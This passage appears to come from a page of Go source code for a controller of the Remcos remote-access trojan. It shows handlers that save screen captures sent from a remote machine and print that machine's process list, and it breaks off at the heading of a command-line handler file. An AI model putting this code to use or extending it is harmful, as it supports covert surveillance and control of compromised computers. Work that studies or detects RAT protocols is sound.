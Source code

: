 
  * remcos_xx/command_Screen_Capture.go

    
    
    package remcos_xx  
      
    import (  
     "Client_Remcos/common"  
     "encoding/hex"  
     "fmt"  
     "net"  
     "strings"  
    )  
      
    func Command_Screen_Capture(conn net.Conn) {  
     recvdata, err := RecvBuf(conn)  
     if err != nil {  
      fmt.Println(err.Error())  
      panic(0)  
     }  
     //fmt.Println(hex.EncodeToString(recvdata))  
      
     hex_datas := strings.Split(hex.EncodeToString(recvdata[4:]), "7c1e1e1f7c")  
     filename, _ := hex.DecodeString(hex_datas[0])  
     bufdata, _ := hex.DecodeString(hex_datas[1])  
      
     fmt.Println("screen_capture output:" + "截屏保存于" + string(filename) + ".png" + "文件中")  
     common.Writefile(string(filename)+".png", string(bufdata))  
    }  
    

  * remcos_xx/command_Process_Manager.go

    
    
    package remcos_xx  
      
    import (  
     "bytes"  
     "fmt"  
    )  
      
    func Command_Process_Manager(buf_recv []byte) {  
     datas := bytes.Split(buf_recv, []byte{0x7c, 0x1e, 0x1e, 0x1f, 0x7c})  
      
     list_process := datas[0]  
     pid_current := datas[1]  
      
     fmt.Println("current process PID：" + string(pid_current))  
      
     fmt.Println("Process Name\tPath\tPID")  
     list_process = bytes.ReplaceAll(list_process, []byte{0x00}, []byte{})  
     list_process = bytes.ReplaceAll(list_process, []byte{0xa6, 0x30, 0x7c}, []byte("\n"))  
     list_process = bytes.ReplaceAll(list_process, []byte{0xa6}, []byte("\t"))  
     fmt.Println(string(list_process))  
      
    }  
    

  * remcos_xx/command_Command_Line.go
